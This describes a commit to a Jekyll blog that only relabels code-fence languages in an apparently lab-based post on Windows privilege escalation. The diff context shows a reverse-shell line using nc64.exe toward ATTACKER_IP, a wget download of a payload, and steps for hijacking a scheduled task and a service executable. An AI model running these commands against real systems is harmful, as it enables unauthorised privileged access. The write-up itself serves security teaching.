

Before and after one commit to VOiD-Ayush/The_Awesome_Blog, a Jekyll site: the page built from all_collections/_posts/2022-07-18-Windows-Privilege-Escalation.md, in a window 1280 px wide and 1400 px high, scrolled down 10054 px. Shown: the whole window at 96% size, without its empty margins (183-1096 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
hopefully fixed

````diff
--- a/all_collections/_posts/2022-07-18-Windows-Privilege-Escalation.md
+++ b/all_collections/_posts/2022-07-18-Windows-Privilege-Escalation.md
@@ -126,7 +126,7 @@ Looking into scheduled tasks on the target system, you may see a scheduled task
 
 Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:
 
-```powershell
+```py
 schtasks /query /tn vulntask /fo list /v
 Folder: \
 HostName:                             THM-PC1
@@ -139,7 +139,7 @@ You will get lots of information about the task, but what matters for us is the
 
 If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:
 
-```powershell
+```py
 icacls c:\tasks\schtask.bat
 c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)
@@ -148,7 +148,7 @@ c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
 
 As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:
 
-```powershell
+```py
 C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
 ```
 
@@ -167,7 +167,7 @@ Windows installer files (also known as `.msi` files) are used to install applica
 
 This method requires two registry values to be set. You can query these from the command line using the commands below.
 
-```powershell
+```py
 C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
 C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
 ```
@@ -189,7 +189,7 @@ Each service on a Windows machine will have an associated executable which will
 
 To better understand the structure of a service, let's check the apphostsvc service configuration with the sc qc command:
 
-```powershell
+```py
 C:\> sc qc apphostsvc
 [SC] QueryServiceConfig SUCCESS
 
@@ -226,7 +226,7 @@ If the executable associated with a service has weak permissions that allow an a
 
 To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using sc:
 
-```powershell
+```py
 C:\> sc qc WindowsScheduler
 [SC] QueryServiceConfig SUCCESS
 
@@ -244,7 +244,7 @@ SERVICE_NAME: windowsscheduler
 
 We can see that the service installed by the vulnerable software runs as `svcuser1` and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe.` We then proceed to check the permissions on the executable:
 
-```Powershell
+```py
 C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
 C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                   NT AUTHORITY\SYSTEM:(I)(F)
@@ -268,12 +268,12 @@ Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
 ```
 We can then pull the payload from Powershell with the following command:
 
-```Powershell
+```py
 wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
 ```
 
 Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:
-```powershell
+```py
 C:\> cd C:\PROGRA~2\SYSTEM~1\
 
 C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
@@ -291,7 +291,7 @@ Kali Linux
 user@attackerpc$ nc -lvp 4445
 ```
 And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:
-```powershell
+```py
 C:\> sc stop windowsscheduler
 C:\> sc start windowsscheduler
 ```
````
